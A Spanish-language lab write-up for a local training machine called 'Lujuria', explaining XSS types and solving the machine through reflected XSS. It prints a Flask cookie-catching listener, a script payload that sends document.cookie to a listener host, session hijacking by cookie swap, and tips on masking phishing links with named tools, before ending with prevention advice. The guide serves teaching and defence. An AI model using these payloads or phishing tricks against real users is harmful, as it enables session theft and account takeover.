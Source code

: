 = Lujuria
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de lujuria.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh lujuria.tar
----

== Ataque XSS

Este ataque permite a los atacantes implantar scripts maliciosos en un sitio web legítimo (también víctima del atacante) para ejecutar un script en el navegador de un usuario desprevenido que visita dicho sitio y afectarlo, ya sea robando credenciales, redirigiendo al usuario a otro sitio malicioso, o para cambiar la apariencia de un sitio web.

=== Tipos de ataques XSS

Existen tres tipos de ataques XSS:

==== Reflejado/Indirecto

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor refleja el código malicioso en la respuesta. Se trata de la variedad de XSS más simple y el script malicioso que busca afectar el navegador de la víctima es fácilmente modificable, probablemente sin que el usuario note el ataque.

image::assets/reflected.png[Reflejado,align=center]

==== Persistente/Directo/Almacenado

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor almacena el código malicioso en la base de datos. De esta forma persiste el script inofensivo, hasta que el valor es recuperado por la aplicación y utilizado para conformar parte del documento HTML. Ejemplos de esto pueden ser: los comentarios de sitios web, entradas de blog, nombres de usuario, chats, formularios de contacto, detalle de alguna orden, etc.

image::assets/stored.png[Persistente,align=center]

==== Document Object Model (DOM)

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el código malicioso se ejecuta en el navegador de la víctima. DOM facilita la estructura de documentos como HTML o XML y permite a los programas modificar la estructura, estilo y contenido del documento. El ataque DOM XSS se produce cuando el código malicioso se ejecuta en el navegador de la víctima, pero no se envía al servidor. Esto lleva a que el usuario ejecute código desde el lado del cliente sin saber que lo está haciendo.

.Algunas funciones JavaScript vulnerables
[%collapsible]
====
Algunas funciones en JavaScript que pueden ser un indicador de un posible punto vulnerable son:

    domain
    write()
    writeln()
    innerHTML
    insertAdjacentHTML
    onevent
    Element.outerHTML

Sin olvidar las librerías como JQuery, en donde utiliza métodos específicos para facilitar algunas funciones tradicionales del propio JavaScript, u otras librerías sin la adecuada codificación de los datos:

    $.parseHTML()
    add()
    after()
    animate()
    append()
    before()
    constructor()
    has()
    html()
    index()
    init()
    insertAfter()
    insertBefore()
    parseHTML()
    prepend()
    replaceAll()
    replaceWith()
    wrap()
    wrapAll()
    wrapInner()
====

image::assets/dom.png[DOM,align=center]

== Solucionar la máquina

Vamos a ver en esta guía como solucionar la máquina *Lujuria*. Se basa en el robo de cookies, por un XSS reflejado y un ligero ataque de phising.

En nuestro caso, actuaremos como *_víctima_* y como *_atacante_*.

* Desde el punto de vista de la *_víctima_* deberemos saber las credenciales para loguearnos y dejar la cuenta abierta. 
* Desde el punto de vista del *_atacante_* no deberemos saber las credenciales del usuario, pero le enviaremos una campaña de phising ficticia a la víctima.

Como el despliegue es en local, para comprobar que todo se ha realizado correctamente, deberemos crear dos usuarios en nuestro navegador de confianza (víctima y atacante):

[cols="1,1"]
|===
|Navegador|URL

|Firefox
|about:profiles

|Brave
|brave://settings/manageProfile

|Chrome
|chrome://settings -> "Personas"

|Opera
|opera://settings/side-profiles-settings
|===

=== Víctima

Con la máquina desplegada, abrimos nuestra sesión en firefox e introducimos la IP que nos devolverá el *autodeploy.sh*. Una vez en la página de login, introducimos nuestras credenciales (usuario: dante, contraseña: dante123). Una vez dentro de la página, nos quedamos logueados.

=== Atacante

==== Despliegue de servidor a la escucha

Siendo atacantes, vamos a crear un archivos .py con el siguiente script. Este script crea un servidor local que está a la escucha en el puerto 1337. 

Código tomado de https://skf.gitbook.io/asvs-write-ups/httponly-session-hijacking-xss/httponly-session-hijacking-xss#exploitation[Security Knowledge Framework]

.Ver código
[%collapsible]
====
[source,python]
----
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
----
====
Para poder utilizar este código deberemos tener descargado python3 y después descargaremos las librerias flask y requests. Por último iniciamos el programa.

[source,bash]
----
$ sudo apt install python3
$ pip install flask
$ pip install requests
$ python3 app.py
----

==== Creación de URL maliciosa

Entonces nuestra intención es que la víctima inyecte sin darse cuenta código malicioso javascript. Como atacantes, debemos saber que en la página después de login hay un bloque de texto y que esta es *welcome.php*. 

Entonces vamos a crear nuestra URL maliciosa:

. Comenzamos sabiendo que es el servidor es http, así que no tiene seguridad. [http://]
. Sabemos que el dominio es la IP dada por el *autodeploy.sh*. [http://IP/]
. También conocemos que el servidor tiene la página *welcome.php* y que tiene un bloque de texto. [http://IP/welcome.php?q=] (?q= es la query que espera)
. Y por último nuestro script en javascript, que le enviará las cookies al puerto que abre el .py:

[source,javascript]
----
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
----

Entonces nuestra URL maliciosa quedaría tal que:

----
http://IP/welcome.php?q=<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
----

Pero esta URL no la entenderá correctamente el navegador, tenemos que codificarla:

----
http://localhost:8080/welcome.php?q=%3Cscript%3Enew%20Image().src%20%3D%20%22http%3A%2F%2Flocalhost%3A1337%2F%3Fstolen_cookie%3D%22%20%2B%20document.cookie%3B%3C/script%3E
----

==== Los detalles importan

Y si nos gusta atender al detalle, sería recomendable acortar la URL, para que no sea tan sospechosa, incluso podremos enmascararla con algunos programas. Ya que fondomarcador.com posee un acortador, podemos utilizarlo y que parezca menos sospechoso.

Como dato informativo, también existen varios programas en github que nos ayudan a enmascarar nuestra URL o hacernos pasar por otras páginas:

* https://github.com/darkmidus/HiddenEye[HiddenEye] -> HiddenEye es una herramienta de phishing avanzada que permite simular páginas de inicio de sesión falsas para recopilar credenciales. Puede generar enlaces personalizados y utiliza técnicas para evadir detección. También incluye opciones para personalizar ataques dirigidos y simular captchas.
* https://github.com/yangr0/BlackPhish[BlackPhish] -> BlackPhish es una herramienta para realizar ataques de phishing. Permite crear páginas web maliciosas que se asemejan a servicios populares para recolectar datos. Este programa es modular y está diseñado para principiantes en pruebas de penetración.
* https://github.com/Darkmux/URLSpoof[URLSpoof] -> URLSpoof es una herramienta para simular enlaces visualmente similares a URLs legítimas mediante el uso de caracteres Unicode. Está diseñada para demostrar ataques de ingeniería social basados en la confianza en los nombres de dominio.
* https://github.com/UndeadSec/EvilURL[EvilURL] -> EvilURL genera URLs maliciosas que parecen auténticas mediante el uso de caracteres Unicode similares (homoglyphs). Se utiliza para probar la protección de los navegadores frente a ataques de phishing y spoofing de enlaces.

=== Finalizar

Como *atacante* entramos en nuestro perfil del navegador y nos metemos en la IP del servidor. Entonces deberemos darle al *F12* e irnos a la sección de *almacenamiento* y en *cookies*, cambiar la nuestra por la de la víctima. Una vez hecho esto, en la barra del navegador deberemos acceder a */welcome.php* y ya estaremos dentro.

== ¿Cómo prevenir?

=== Herramientas

Hay varias herramientas que nos permiten identificar ataques XSS o exploits en nuestra página.

* https://github.com/epsylon/xsser[epsylon/xsser]
* https://beefproject.com/[beefproject]
* https://github.com/s0md3v/XSStrike[s0md3v/XSStrike]
* https://github.com/ssl/ezXSS[ssl/ezXSS]

=== Para usuarios

Desde el punto de vista del cliente, lo mejor es *desactivar JavaScript*, de esta forma ataques de DOM XSS cómo su objetivo son los códigos de Java del explorador, no tendría ningún efecto. También hay add-ons para los navegadores como https://noscript.net/[NoScript] su configuración estándard fija el bloqueo automático de contenidos activos tales como JavaScript, Java Applets, Adobe Flash o Microsoft Silverlight.

=== Para administradores web

* *Implementar una política de seguridad de contenido* -> Definir políticas de seguridad de contenido (CSP) sólidas para el sitio web y la aplicación web, e implementarlas en los servidores web. Una CSP es una capa adicional de seguridad que puede detectar y mitigar ciertos tipos de ataques. Para evitar los ataques XSS, restringe los scripts que se pueden ejecutar. 

* *Cookies seguras* -> Los equipos de seguridad pueden establecer reglas especiales sobre cómo los servidores web manejan las cookies para reducir la probabilidad de robo de cookies. Por ejemplo, pueden vincular las cookies a direcciones IP específicas.

* *Firewall de aplicación web (WAF)* -> Un https://www.cloudflare.com/es-es/learning/ddos/glossary/web-application-firewall-waf/[WAF], funcionando como un proxy inverso situado en un servidor delante de aplicaciones web, protege a esas aplicaciones supervisando y filtrando el tráfico HTTP entre las aplicaciones e Internet. Las organizaciones pueden establecer reglas WAF para inspeccionar las URL en busca de scripts maliciosos y bloquearlos para que no se reflejen a los usuarios. Las soluciones WAF con aprendizaje automático ofrecen una protección aún mayor al detectar los intentos de eludir las reglas e identificar las variaciones de los ataques conocidos.

* *Codificación* -> Escapar de la entrada del usuario para que el navegador la interprete solo como datos, no como código. El tipo más reconocible de codificación en el desarrollo web está escapando HTML, que convierte los caracteres como en < y >, respectivamente.

* *Validación* -> La validación es el acto de filtrar la entrada del usuario para que se eliminen todas las partes malintencionadas, sin eliminar necesariamente todo el código que contiene. Uno de los tipos de validación más reconocibles en el desarrollo web es permitir algunos elementos HTML (como <em> y <strong>) pero no permitir otros (como <script>).

* *Clasificar en listas* -> Poner en la lista negra como no válida aquellas cadenas que coincidan con el patrón, la lista negra puede resultar complejo al tener que plantearse las posibilidades. Podríamos usar listas blancas, en lugar de definir un patrón prohibido, un enfoque de lista blanca define un patrón permitido y marca el ingreso como inválido si no coincide con este patrón. Esto resulta mucho más sencillo y longevo (de larga duración).

* *Cambiar la entrada* -> Si la entrada no es válida podríamos rechazarla o desinfectarla eliminando las partes no válidas

Para ampliar más la información vease -> https://www.w3.org/blog/2025/how-to-protect-your-web-applications-from-xss/[W3C XSS 2025]

Cómo hemos podido ver hay muchas formas de mitigar este tipo de ataques, aunque siempre será posible saltarse todo este tipo de protección, ya que la seguridad no nos proporciona estar seguros siempre, deberemos estar siempre alerta, ya que el mal siempre acecha desde todo el mundo.

----
"El único sistema verdaderamente seguro es aquel que está apagado, desconectado, encerrado en un bloque de hormigón y sellado en una habitación con guardias bien pagados. Y aun así, no apostaría por ello."

- Eugene H. Spafford
----